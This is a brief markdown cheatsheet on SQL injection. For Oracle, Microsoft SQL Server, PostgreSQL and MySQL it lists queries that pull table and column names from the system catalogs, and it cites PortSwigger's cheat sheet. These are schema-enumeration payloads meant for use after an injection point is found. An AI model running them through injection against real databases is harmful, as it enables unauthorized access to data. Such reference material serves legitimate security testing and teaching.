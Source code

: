 ```yaml
---
title: SQL Injection
description: SQL Injection cheatsheet
---
```


# SQL Injection

## Extract table and column names

### Oracle

```sql
SELECT LISTAGG(table_name, ',') FROM all_tables

SELECT LISTAGG(column_name, ',') FROM all_tab_columns
WHERE table_name = 'TABLE-NAME-HERE'
```

### Microsoft

```sql
SELECT STRING_AGG(table_name, CHAR(44)) FROM information_schema.tables

SELECT STRING_AGG(column_name, CHAR(44)) FROM information_schema.columns
WHERE table_name = 'TABLE-NAME-HERE'
```

### PostgreSQL

```sql
SELECT STRING_AGG(table_name, ',') FROM information_schema.tables

SELECT STRING_AGG(column_name, ',') FROM information_schema.columns
WHERE table_name = 'TABLE-NAME-HERE'
```

### MySQL

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables

SELECT GROUP_CONCAT(column_name) FROM information_schema.columns
WHERE table_name = 'TABLE-NAME-HERE'`
```


> References [portswigger.net - cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).